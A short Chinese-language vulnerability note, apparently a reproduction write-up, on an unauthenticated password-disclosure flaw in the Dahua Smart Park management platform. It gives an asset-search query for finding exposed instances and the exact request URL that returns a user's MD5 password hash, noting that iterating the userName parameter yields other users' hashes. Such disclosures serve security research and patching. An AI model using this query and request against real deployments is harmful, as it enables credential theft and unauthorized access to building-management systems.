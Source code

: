 # 大华智慧园区综合管理平台密码泄露漏洞

# 一、漏洞简介
大华智慧园区综合管理平台是一个集智能化、信息化、网络化、安全化为一体的智慧园区管理平台，旨在为园区提供一站式解决方案，包括安防、能源管理、环境监测、人员管理、停车管理等多个方面。由于敏感目录并未进行鉴权，所以可以直接得到system的密码（采用MD5加密）。

# 二、影响版本
+ 大华智慧园区综合管理平台

# 三、资产测绘
+ hunter:`app.name="Dahua 大华 智慧园区管理平台"`  
![1691828229241-1a7a5e8c-d5e6-4852-b428-047c6c955113.png](./img/j5J4UTsXNi3QyccW/1691828229241-1a7a5e8c-d5e6-4852-b428-047c6c955113-147085.png)
+ 登录页面：

![1691828319702-85171e4b-cb4b-4826-a654-3c8859b17138.png](./img/j5J4UTsXNi3QyccW/1691828319702-85171e4b-cb4b-4826-a654-3c8859b17138-860009.png)

# 四、漏洞复现
```plain
/admin/user_getUserInfoByUserName.action?userName=system
```

![1691939932039-c2486925-3f44-4e78-a2c5-49b640dad81d.png](./img/j5J4UTsXNi3QyccW/1691939932039-c2486925-3f44-4e78-a2c5-49b640dad81d-064672.png)

可通过遍历`userName`参数，获取md5加密的密码，



> 更新: 2024-02-29 23:57:18  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/qkdoiry1tgrhdk63>